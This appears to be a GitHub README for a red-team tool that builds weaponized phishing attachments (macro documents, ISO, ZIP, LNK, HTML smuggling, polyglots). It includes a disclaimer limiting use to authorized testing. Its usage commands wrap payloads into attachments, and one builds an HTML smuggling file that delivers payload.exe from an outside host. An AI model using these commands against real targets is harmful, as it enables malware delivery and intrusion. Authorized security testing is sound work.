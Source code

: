 # Attachment Weaponizer

Modular framework for creating weaponized attachments for authorized phishing campaigns and security testing.

## ⚠️ Legal Disclaimer

**FOR AUTHORIZED SECURITY TESTING ONLY**

This tool is designed exclusively for:
- Authorized penetration testing with written permission
- Security awareness training programs
- Red team engagements with proper authorization
- Educational purposes in controlled environments

Unauthorized use is illegal under computer fraud laws including the CFAA. Users are responsible for compliance with all applicable laws.

## Features

- **7 Attachment Types**: Office macros, ISO files, password-protected ZIPs, HTML smuggling, LNK files, polyglots
- **Modular Design**: Easy to extend with new attachment types
- **CLI & API**: Both command-line and programmatic interfaces
- **Educational Focus**: Detailed explanations of techniques
- **Integration Ready**: Works with phishing frameworks

## Installation

```bash
# Clone repository
git clone https://github.com/yourusername/attachment-weaponizer
cd attachment-weaponizer

# Install (no required dependencies for basic features)
pip install -r requirements.txt  # Optional enhancements
```

## Quick Start

### CLI Usage

```bash
# Create macro Word document
python -m attachment_weaponizer macro-doc payload.vba

# Create password-protected ZIP
python -m attachment_weaponizer password-zip payload.exe

# Create HTML smuggling file
python -m attachment_weaponizer html-smuggling http://10.10.14.5/payload.exe

# List created attachments
python -m attachment_weaponizer list

# Show examples
python -m attachment_weaponizer examples
```
